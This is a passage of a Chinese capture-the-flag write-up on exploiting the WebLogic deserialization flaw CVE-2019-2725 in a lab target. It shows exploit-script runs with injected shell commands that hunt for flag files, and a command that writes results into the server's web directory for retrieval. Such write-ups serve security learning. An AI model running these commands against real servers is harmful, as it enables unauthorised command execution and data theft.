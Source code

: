 **Flag搜索结果**:

```bash
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ python3 manual_exploit.py http://10.37.133.3:7001 "find / -name '*flag*' 2>/dev/null"

[*] 攻击目标: http://10.37.133.3:7001/wls-wsat/CoordinatorPortType
[*] 执行命令: find / -name '*flag*' 2>/dev/null
[+] HTTP状态码: 500
[+] 响应长度: 5287 字节
[+] 可能攻击成功 (HTTP 500通常表示反序列化触发)
                                                                                                                                                 
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ python3 manual_exploit.py http://10.37.133.3:7001 "cat /flag /tmp/flag* /flag.txt 2>/dev/null || echo 'Flag not found in common locations'"

[*] 攻击目标: http://10.37.133.3:7001/wls-wsat/CoordinatorPortType
[*] 执行命令: cat /flag /tmp/flag* /flag.txt 2>/dev/null || echo 'Flag not found in common locations'
[+] HTTP状态码: 500
[+] 响应长度: 5287 字节
[+] 可能攻击成功 (HTTP 500通常表示反序列化触发)
                                                                                                                                                 
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ python3 manual_exploit.py http://10.37.133.3:7001 "grep -r 'flag' /tmp /var /home 2>/dev/null | head -10"

[*] 攻击目标: http://10.37.133.3:7001/wls-wsat/CoordinatorPortType
[*] 执行命令: grep -r 'flag' /tmp /var /home 2>/dev/null | head -10
[+] HTTP状态码: 500
[+] 响应长度: 5287 字节
[+] 可能攻击成功 (HTTP 500通常表示反序列化触发)
```

**Flag获取分析**:**命令输出限制**

- 虽然所有命令都成功触发了反序列化漏洞（HTTP 500状态码），但命令的输出结果没有直接在HTTP响应中返回
- 这是CVE-2019-2725的一个特点：ProcessBuilder执行命令但不会将输出回显到HTTP响应中
- 需要使用其他技术来获取命令执行结果，如反向shell或文件写入

**替代获取方法**:

根据[Oracle官方安全公告](https://www.oracle.com/security-alerts/alert-cve-2019-2725.html)和[Exploit-DB上的CVE-2019-2725利用代码](https://www.exploit-db.com/exploits/46780)，我们可以使用更高级的payload来获取命令输出：

**方法一：文件写入到Web目录**

```bash
# 尝试将flag写入Web可访问目录
python3 manual_exploit.py http://10.37.133.3:7001 "find / -name '*flag*' 2>/dev/null > /u01/oracle/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_user/console/console.war/flag_result.txt"

# 然后通过Web访问获取结果
curl http://10.37.133.3:7001/console/flag_result.txt
```
